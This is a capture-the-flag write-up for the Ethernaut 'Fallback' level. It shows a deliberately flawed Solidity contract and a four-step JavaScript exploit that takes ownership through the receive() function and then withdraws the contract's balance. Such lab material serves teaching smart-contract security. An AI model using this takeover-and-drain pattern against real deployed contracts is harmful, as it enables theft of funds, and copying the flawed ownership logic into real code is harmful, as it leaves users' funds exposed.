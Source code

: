 # [1. Fallback](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
    require(
      msg.sender == owner,
      "caller is not the owner"
    );
    _;
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The receive function is flawed, we just need to send some value via contribute and then via receive to change the owner. The contribute requires less than 0.001 ether, and receive expects greater than 0. Here is the plan:

1. We will contribute 1 Wei.
2. We will then send money to the contract address via a fallback function. This can be done by calling a non-existent function in the contract with some ether value.
3. We are now the owner!
4. To deal the final blow, we call the `withdraw` function. By only spending 2 Wei, we got the owners balance :)

```js
// (1) Contribute
await contract.contribute({value: "1"})

// (2) Fallback
await contract.sendTransaction({
  from: player, 
  value: "1", 
  data: undefined // for the fallback
})

// (3) Confirm ownership
await contract.owner()

// (4) Withdraw
await contract.withdraw()
```
